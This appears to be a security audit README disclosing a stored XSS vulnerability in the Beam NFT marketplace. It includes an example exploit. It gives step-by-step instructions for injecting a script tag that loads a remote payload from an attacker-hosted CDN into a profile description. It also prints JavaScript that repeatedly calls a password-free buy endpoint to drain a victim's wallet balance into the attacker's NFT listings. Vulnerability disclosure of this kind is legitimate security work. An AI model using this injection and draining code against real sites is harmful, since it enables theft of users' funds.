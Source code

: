 <div align="center">
  <img title="" src="images/prismsec.png" alt="PrismSec logo" data-align="center" width="400">
  </br>

<p><i>Here we present the beamnft.art marketplace vulnerability and an example exploit.</i></p>
  <hr>
</div>

# Vulnerability - Stored XSS

[The Beam NFT Marketplace](https://beamnft.art/) is vulnerable to a [XSS attack](https://owasp.org/www-community/attacks/xss/), which allows malicious scripts to be embedded into the marketplace.

> Click the XSS link above to read about what an XSS attack is, we wont go into that here.

## How to execute

Before injecting the malicious payload, you must first download and install the [Beam Web Wallet](https://chrome.google.com/webstore/detail/beam-web-wallet/ilhaljfiglknggcoegeknjghdgampffk), after this head over to [The Beam NFT Marketplace](https://beamnft.art/) and get signed up!

Once signed up, complete your profile, an attacker would want to make this look as presentable and inviting as possible. The description field is where were going to inject our malicious javascript!

## Injection

Within the description field, simply enter the following piece of javascript

```
<script src="https://<yourcdn>.net/nftengine.js"></script>
```

Typically a threat actor may use a CDN to to host the malicious payload, the above code will not work, the payload will load from an external source (source your own cdn and use correct url)

<div align="center">
  <img title="" src="images/description.png" alt="PrismSec logo" data-align="center">
  </br>
</div>

# Exhausting the users balance

Take a look at [nftengine.js](https://github.com/PRISM-Privacy/beamnft-audit/blob/main/nft-engine.js), this is the malicious payload that allows the exhausting and stealing of users funds.

## How it works

The malicious script takes advantage of the buy NFT api endpoint which doesnt require the users password, this allows the malicious actor to buy his own NFTs without the users knowledge in an iterative fashion until the users balance is exhausted!

The script iterates over the NFT prices in the malicious actors collection, if the balance is bigger than the price of the NFT, it executes a buy order, and continues until it has check each NFT in the collection!

```
exhaustFunds = async (balance, nfts) => {
  // balance in BEAM and GROTH
  let beamBalance = balance / 100000000;
  let grothBalance = balance;
  let transactionFee = 100000000;

  console.clear(); // sanitize console

  console.log(`balance in BEAM: ${beamBalance} BEAM`);
  console.log(`balance in GROTH: ${grothBalance} GROTH\n\n`);

  // loop through nft object, show only nfts which are for sale (price > 0)
  for (let key in nfts) {
    if (nfts[key].price != 0 && nfts[key].price < grothBalance) {
      let bought = await buyNft(nfts[key]._id, nfts[key].price);
      grothBalance = grothBalance - (nfts[key].price + transactionFee); // update balance
      console.log(`exhaused ${nfts[key].price / 100000000} BEAM`); // replace console.log with discord notification
      //  TODO - Do we need to wait for => block confirmation before continue?
    } else {
      console.log(
        "didnt exhaust, either NFT isnt for sale or balance too low to afford NFT"
      );
    }
  }
};
```

> The following image shows the required parameters to buy an NFT (no password required), the image after shows the required parameters to withdraw (requires password)

<div align="center">
  <img title="" src="images/buynftendpoint.png" alt="PrismSec logo" data-align="center">
</div>

<div align="center">
  <img title="" src="images/withdrawendpoint.png" alt="PrismSec logo" data-align="center">
</div> 

# Tips for BeamNFT to fix

1. Sanitize inputs and check for presence or Javascript

2. No need for the API, its not for public use and was a great help

3. Why is so much info coming back in the console? dont log so much info to console, was a great help
